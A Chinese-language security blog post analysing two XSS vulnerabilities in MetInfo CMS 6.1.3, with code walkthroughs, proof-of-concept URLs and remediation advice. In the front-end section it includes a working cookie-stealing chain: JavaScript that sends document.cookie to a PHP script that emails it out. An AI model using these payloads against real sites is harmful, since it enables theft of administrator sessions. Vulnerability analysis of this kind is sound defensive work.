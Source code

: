 > 原文链接: https://www.anquanke.com//post/id/173064 


# Metinfo 6.1.3 XSS漏洞分析


                                阅读量   
                                **239317**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t0144db68171a5a9be1.png)](https://p0.ssl.qhimg.com/t0144db68171a5a9be1.png)



## 前言

前段时间看到一个cms造成的xss漏洞，这里想分析下。这个漏洞是metinfo6.1.3版本因参数问题造成前台和后台引起了两处xss漏洞。

这个漏洞的影响范围一直到最新版本（6.1.3），因为前段时间爆出的漏洞，所以新版本应该已修复。

cms最新6.13下载地址：[https://www.mituo.cn/download/](https://www.mituo.cn/download/)



## 前台漏洞分析（ CVE-2018-20486）

通过在前台插入xss访问，然后会在后台触发xss，造成xss攻击。

漏洞的触发点在admin/login/login_check.php

[![](https://p0.ssl.qhimg.com/t017a8936ce551ccf27.png)](https://p0.ssl.qhimg.com/t017a8936ce551ccf27.png)

这里加载了$commonpath=$depth.’include/common.inc.php’，然后在如下的代码段里存在变量覆盖漏洞： （admin/include/common.inc.php 77行）

[![](https://p5.ssl.qhimg.com/t01bcc67088f0c3b377.png)](https://p5.ssl.qhimg.com/t01bcc67088f0c3b377.png)

然后往下分析，回头看admin/login/login_check.php这段代码

[![](https://p4.ssl.qhimg.com/t01161bd86b10998cdc.png)](https://p4.ssl.qhimg.com/t01161bd86b10998cdc.png)

$url_array变量是我们可控的，从而控制$truefile变量，进入下个if语句，if语句中存在更改数据库信息的mysql语句，从而可以直接更改数据库信息

$_M 数组是一个包含了网站设置，系统调用等信息的总和数组，具体内容如下：

```
$_M[config]：网站配置数组，里面可以查询到所有的网站配置数据。
    $_M[form]：提交的GET,POST,COOKIE表单数组。在系统中不要直接使用$_POST,$_GET,$_COOKIE,
        这些都是没有过滤的，$_M[form]中是已经安全过滤后的数组。
    $_M[langlist]：语言设置数组，其中$_M[langlist][web]为前台语言设置，
            $_M[langlist][admin]为后台语言设置。
    $_M[lang]：前台语言，如果你是在网站前台，则这个值是你当前访问的语言，
        如果是后台，则这个值是你当前编辑的语言。
    $_M[table]：系统表名称。
    $_M[url]：系统一些常用URL入口地址。
    $_M[url][site_admin] ：网站后台地址
    $_M[url][site] ：网站前台地址
    $_M[url][entrance] ：框架入口地址
    $_M[url][own] ：当前执行的应用根目录地址
    $_M[url][app] ：应用根目录地址
    $_M[url][pub] ：系统公用文件（html.css,js）地址
    $_M[url][ui] ：当前class所使用的UI地址，前台为“系统ui根目录/web”;，
                    后台为“系统ui根目录/admin”。
    $_M[user][cookie]：用户cookie信息，建议不要直接取值，使用get_met_cookie()取值。
    $_M[word]：当前的语言参数。
    $_M[plugin]：系统插件数组。
```

然后在 app/system/include/class/common.class.php中

```
$_M['config']['met_adminfile_code'] = $_M['config']['met_adminfile'];
        $_M['config']['met_adminfile'] = authcode($_M['config']['met_adminfile'],'DECODE', $_M['config']['met_webkeys']);
        if ($_M['config']['met_adminfile'] == '') `{`
            $_M['config']['met_adminfile'] = 'admin';
            $met_adminfile = authcode($_M['config']['met_adminfile'],'ENCODE', $_M['config']['met_webkeys']);
            $query = "UPDATE `{`$_M['config']['tablepre']`}`config SET `value` = '$met_adminfile' where `name`='met_adminfile'";
            $result = DB::query($query);
        `}`
```

我们可以看到，met_adminfile是我们可控的值存在于$_M[‘config’][‘met_adminfile’]中，也就是通过这个就可以找到我们可以构造的点了。

[![](https://p2.ssl.qhimg.com/t017ac5b4b0d5c5c115.png)](https://p2.ssl.qhimg.com/t017ac5b4b0d5c5c115.png)

看到这里就会发现离我们可构造的XSS不远了，这段存在于app/system/safe/admin/templates/index.php (72行)，可以发现，这里标签直接输出了met_adminfile的值，因此造成了一个存储型的XSS漏洞。

xss payload:

```
http://127.0.0.1/metinfo6.13/admin/login/login_check.php?url_array[]=1&amp;url_array[]=1&amp;url_array[]=aa" onfocus=alert(/xss/) &amp;url_array[]=1
```

然后直接访问，无回显。

这时登录后台，点击安全与效率页面

[![](https://p4.ssl.qhimg.com/t0176c8f6cf0c0b710c.png)](https://p4.ssl.qhimg.com/t0176c8f6cf0c0b710c.png)

[![](https://p5.ssl.qhimg.com/t0148c70656db0f0ef8.png)](https://p5.ssl.qhimg.com/t0148c70656db0f0ef8.png)

点击后台文件夹的文件名即可触发xss。其实可以发现后台文件名已经被更改了，并插入了xss代码。每当更改文件名时便会触发xss，这里就是通过更改参数的值传进数据库，从而更新了文件名。

我们可以通过这个存储型XSS漏洞去拿管理员cookie。

获取cookie-payload:

```
&lt;?php
$cookie = $_GET['joke'];
if(isset($_GET['joke']))
`{`
$to = "xxxxxxx@qq.com";         // 邮件接收者
$subject = "COOKIE";                // 邮件标题
$message = $_GET['joke'];  // 邮件正文
$from = "xxxxxxx@qq.com";   // 邮件发送者
$headers = "From:" . $from;         // 头部信息设置
mail($to,$subject,$message,$headers);
echo "邮件已发送";
`}`
else
    echo "邮件发送失败";
?&gt;
```

```
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://localhost/Myphp/eamil/eamil0.php?joke='+encodeURIComponent(document.cookie);//这里是用本地环境测试的，可以换成自己的ip地址
```

js脚本获取cookie内容，然后将cookie赋予php脚本变量中，然后获取变量内容，发送邮件到自己邮箱。

发送邮箱需配置smtp服务，具体可以参考我这篇文章[https://www.jianshu.com/p/4afafc3c5a3e](https://www.jianshu.com/p/4afafc3c5a3e)



## 后台漏洞分析（CVE-2018-19835）

后台也是由于参数问题造成的xss漏洞，不过这个目录只能在后台访问。

先看造成漏洞的主要代码块（/admin/column/move.php）：

[![](https://p1.ssl.qhimg.com/t01fb4e50908314859e.png)](https://p1.ssl.qhimg.com/t01fb4e50908314859e.png)

从代码中可以看出只需要$folderyanzheng&gt; 0进入if判断内，再看第二个if语句，要保证$folder_m不为空，因此我们可以随便查询一个数据库，也就是给变量$foldername赋一个数据库名。然后将$lang_columnerr4赋给$metcms,最后输出$metcms，也就造成了xss。

查询数据库如下：

[![](https://p0.ssl.qhimg.com/t0160fbde57891a5236.png)](https://p0.ssl.qhimg.com/t0160fbde57891a5236.png)

不过从这里可以看出造成这个xss攻击代价太大，不仅要知道后台权限，还要知道一个数据库名。感觉可用性并不是太强。

### <a name="%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0"></a>漏洞复现

Xss-Payload:

```
http://127.0.0.1/metinfo6.13/admin/column/move.php?foldyanzheng=1&amp;foldername=search&amp;lang_columnerr4=&lt;Script&gt;alert(/xss/)&lt;/sCript&gt;&amp;metcms=1
```

[![](https://p4.ssl.qhimg.com/t017c0b00a09cc1a23d.png)](https://p4.ssl.qhimg.com/t017c0b00a09cc1a23d.png)

这里我们可以看出它会将信息最终通过metcms参数输出在页面中，因此也就造成了xss。

[![](https://p1.ssl.qhimg.com/t01f04093d42f2b84e7.png)](https://p1.ssl.qhimg.com/t01f04093d42f2b84e7.png)



## 总结

修复建议： 因为最新版本应该已经修复相关漏洞，可以升级为新版本。

metinfo出现的xss漏洞较多，但xss在能够利用的情况下产生的危害也较大，因此在开发时应考虑到造成漏洞的不同场景，尽可能的避免漏洞存在。针对XSS最常见的可以对输入(和URL参数)进行过滤，对输出进行编码，也可以对关键字进行黑名单或白名单的过滤等等。

以上分析仅为个人理解，如有不足之处还请大佬们指点。

参考文章：[Metinfo前台XSS漏洞分析 CVE-2018-20486](https://mp.weixin.qq.com/s?__biz=MzI0Nzc0NTcwOQ==&amp;mid=2247484411&amp;idx=1&amp;sn=46f4e1c99a22adb6faf15d05c4ea17d9&amp;chksm=e9aa1e39dedd972ffdba44875e59175e753f5d4d050c95a298a4fa70e75c7c33d570112fdcec&amp;xtrack=1&amp;scene=0&amp;subscene=131&amp;clicktime=1548610288&amp;ascene=7&amp;devicetype=android-27&amp;version=2700003c&amp;nettype=3gnet&amp;abtest_cookie=BQABAAoACwASABMAFAAGACOXHgBXmR4Am5keAJ2ZHgCzmR4A0pkeAAAA&amp;lang=zh_CN&amp;pass_ticket=K3YlNukD0anrGXdztX3Gp0N%2FtlGlThFaU%2BKcGr3Kd3sfVbfNh0CLzWQS0hORsvr2&amp;wx_header=1)
